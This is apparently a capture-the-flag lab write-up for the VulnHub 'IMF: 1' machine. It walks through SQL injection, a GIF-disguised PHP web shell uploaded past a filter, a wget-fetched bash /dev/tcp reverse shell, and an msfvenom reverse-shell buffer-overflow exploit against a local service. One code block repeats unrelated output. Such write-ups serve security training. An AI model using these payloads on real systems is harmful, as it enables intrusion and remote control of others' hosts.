


# [[VulnHub] IMF: 1](https://www.vulnhub.com/entry/imf-1,162/)

**Date**: 26/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_bof`](https://github.com/7h3rAm/writeups#privesc_bof)  

## Overview
This is a writeup for VulnHub VM [`IMF: 1`](https://www.vulnhub.com/entry/imf-1,162/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Sun Sep 22 12:16:22 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.imf/results/192.168.92.178/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.imf/results/192.168.92.178/scans/xml/_quick_tcp_nmap.xml 192.168.92.178
Nmap scan report for 192.168.92.178
Host is up, received arp-response (0.00039s latency).
Scanned at 2019-09-22 12:16:24 PDT for 11s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
MAC Address: 00:0C:29:2A:CD:D9 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 22 12:16:36 2019 -- 1 IP address (1 host up) scanned in 13.16 seconds

```

2\. The Nmap NSE script `http-comments-displayer` found out first flag on the `contact.php` page:  
``` {.python .numberLines}
view-source:http://192.168.92.178/contact.php
  |     Path: http://192.168.92.178:80/contact.php
  |     Line number: 149
  |     Comment:
  |         <!-- flag1{YWxsdGhlZmlsZXM=} -->

b64d "YWxsdGhlZmlsZXM=" ; echo
  allthefiles

```

  

3\. We also find base64 strings used as filenames for some javascript files. Decoding these strings reveal the second flag:  
``` {.python .numberLines}
view-source:http://192.168.92.178/index.php
  <script src="js/ZmxhZzJ7YVcxbVl.js"></script>
  <script src="js/XUnRhVzVwYzNS.js"></script>
  <script src="js/eVlYUnZjZz09fQ==.min.js"></script>

b64d "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ=="
  flag2{aW1mYWRtaW5pc3RyYXRvcg==}

b64d "aW1mYWRtaW5pc3RyYXRvcg=="
  imfadministrator

```

  

  

4\. Following up on the `imfadministrator` string, it turned out to be a directory name. Visting this link gives a login page with an interesting comment in HTML source. We made a few attempts but could not successfully login:  
``` {.python .numberLines}
http://192.168.92.178/imfadministrator/index.php
  <!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->

```

  

5\. We intercept the login request via Burp proxy and change the `pass` field to an array which confuses the application and returns a page with the third flag:  
``` {.python .numberLines}
flag3{Y29udGludWVUT2Ntcw==}
  b64d "Y29udGludWVUT2Ntcw=="
    continueTOcms

```

  

  

  

  

6\. We explored the CMS link but could not find anything interesting apart from the `pagename` parameter in URL. Upon further enumeration, the URL handler was found to be vulnerable to SQLi:  
``` {.python .numberLines}
http://192.168.92.178/imfadministrator/cms.php?pagename=home'
  Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29

```

  

7\. We fire up `sqlmap` on this URL and from the database dump, found a new page containing an image `whiteboard.jpg`. This image has a QR code that encodes the fourth flag:  
``` {.python .numberLines}
http://192.168.92.178/imfadministrator/images/whiteboard.jpg
  flag4{dXBsb2Fkcjk0Mi5waHA=}
    b64d "dXBsb2Fkcjk0Mi5waHA="
      uploadr942.php

```

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  |  http  |  Apache httpd 2.4.18 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.178:80/contact.php
http://192.168.92.178/index.php
http://192.168.92.178/js/ZmxhZzJ7YVcxbVl.js
http://192.168.92.178/js/XUnRhVzVwYzNS.js
http://192.168.92.178/js/eVlYUnZjZz09fQ==.min.js
http://192.168.92.178/imfadministrator/index.php
http://192.168.92.178/imfadministrator/cms.php?pagename=home
http://192.168.92.178/imfadministrator/images/whiteboard.jpg
http://192.168.92.178/imfadministrator/uploadr942.php
```

\newpage
## Phase #2: Exploitation
1\. The `http://192.168.92.178/imfadministrator/uploadr942.php` page has a file upload functionality. We tried different methods to evade the `CrappyWAF` filters and ended up using a minimal command execution page with GIF header and extension as the final payload. Once the file is uploaded, it's destination file name is leaked within HTML comments on the result page. We can use this uploaded file to get command execution:  
``` {.python .numberLines}
cat cmd.gif
  GIF89a
  <?php $out=$_GET["cmd"]; echo `$out`; ?>
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=uname

```

  

  

2\. While exploring the local directory `/var/www/html/imfadministrator/uploads` we find a `flag5_abc123def.txt` file with the fifth flag:  
``` {.python .numberLines}
cat flag5_abc123def.txt
  flag5{YWdlbnRzZXJ2aWNlcw==}
    b64d "YWdlbnRzZXJ2aWNlcw=="
      agentservices

```

3\. We proceeded to convert our command execution payload into a fully interactive shell. We had to upload a bash reverse shell script and execute it via command injection as other methods did not work:  
``` {.python .numberLines}
sharehttp 9090
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=wget%20http://192.168.92.179:9090/shell.sh
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=cat%20shell.sh
  GIF89a /bin/bash -i >& /dev/tcp/192.168.92.179/443 0>&1
nc -nlvp 443
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=bash%20shell.sh

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@imf> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@imf>  
www-data@imf> uname
Linux imf 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
www-data@imf>  
www-data@imf> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:2a:cd:d9
      inet addr:192.168.92.178  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fe2a:cdd9/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:3698 errors:0 dropped:0 overruns:0 frame:0
      TX packets:373 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:758609 (758.6 KB)  TX bytes:34650 (34.6 KB)
www-data@imf>  
www-data@imf> users
root
setup
```

\newpage
## Phase #3: Privilege Escalation
1\. Using `flag5` as a reference, we search for files with name `agent` and find two hits. Upon exploring the `agent` binary it is found that it is also running as a service and bound to `7788/tcp`. Since the port is not exposed outside and `knockd` daemon is also running, it is assumed that there is a port knocking requirement here. We also find a `access_codes` file with the required sequence of ports to knock. Upon trying this sequence, we were unable to get the `7788/tcp` port opened and continued further:  
``` {.python .numberLines}
find / -name agent 2>/dev/null
  /usr/local/bin/agent
  /etc/xinetd.d/agent

```

  

  

  

2\. We find MySQL credentials within `/var/www/html/imfadministrator/cms.php` file but those didn't seem to be correct and as such we moved on:  
``` {.python .numberLines}
find / -name agent 2>/dev/null
  /usr/local/bin/agent
  /etc/xinetd.d/agent

```

  

3\. We transfer the binary locally and start exploring it:  
``` {.python .numberLines}
cat /usr/local/bin/agent | base64 >agentfile
nc -nlvp 9090 >agentfile
nc 192.168.92.178 9090 <agentfile

```

  

  

4\. It requests for an agent ID which we find to be `48093572` using `objdump`. Upon entering this ID we are presented multiple options and the #3 option seems vulnerable to a buffer overflow. We found the EIP offset to be 168 and then use [ROPShell](http://ropshell.com/ropsearch?h=fabc1afd43f668df0b812213567d032c) to find a `call` or `jmp` that can be used for redirecting control. We created a linux reverse shell using `msfvenom`, crafted our exploit and used `netcat` to submit it as payload to the locally running instance of the vulnerable `agent` binary:  
``` {.python .numberLines}
objdump -d agent | grep "<main>:" -A30
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.92.179 LPORT=4433 -f python -b "\x00\x0a\x0d"
nc -nlvp 4433
echo -en "48093572\n3\n\xbe\xc3\x35\x65\xa2\xd9\xc8\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x12\x83\xc2\x04\x31\x72\x0e\x03\xb1\x3b\x87\x57\x04\x9f\xb0\x7b\x35\x5c\x6c\x16\xbb\xeb\x73\x56\xdd\x26\xf3\x04\x78\x09\xcb\xe7\xfa\x20\x4d\x01\x92\x72\x05\xad\xd1\x1b\x54\x4e\x04\x8d\xd1\xaf\x96\x4b\xb2\x7e\x85\x20\x31\x08\xc8\x8a\xb6\x58\x62\x7b\x98\x2f\x1a\xeb\xc9\xe0\xb8\x82\x9c\x1c\x6e\x06\x16\x03\x3e\xa3\xe5\x44\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x63\x85\x04\x08\x0a" | nc localhost 7788

```

  

  

  

  

  

5\. We got elevated access to the system and can now get the last flag:  
``` {.python .numberLines}
cat /root/Flag.txt
  flag6{R2gwc3RQcm90MGMwbHM=}
cat /root/TheEnd.txt

```

  

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
setup:$6$PR5zOqWk$3MKXMgf6.4bLlznh0R87RB4qaOAcGhbE0Cs8xtUqVPHP8x0553/6aMZnfsZOWKXL0DOqUcVRkfCQN8Dvj........................
```
### Credentials
``` {.python .numberLines}
mysql: admin/3298fj8323j80.....
```
### Flags
``` {.python .numberLines}
flag1{YWxsdGhlZmls.....
flag2{aW1mYWRtaW5pc3RyYXR......
flag3{Y29udGludWVUT2N......
flag4{dXBsb2Fkcjk0Mi5......
flag5{YWdlbnRzZXJ2aWN......
flag6{R2gwc3RQcm90MGM......
```

## References
[+] <https://www.vulnhub.com/entry/imf-1,162/>  
[+] <https://g0blin.co.uk/imf-vulnhub-writeup/>  
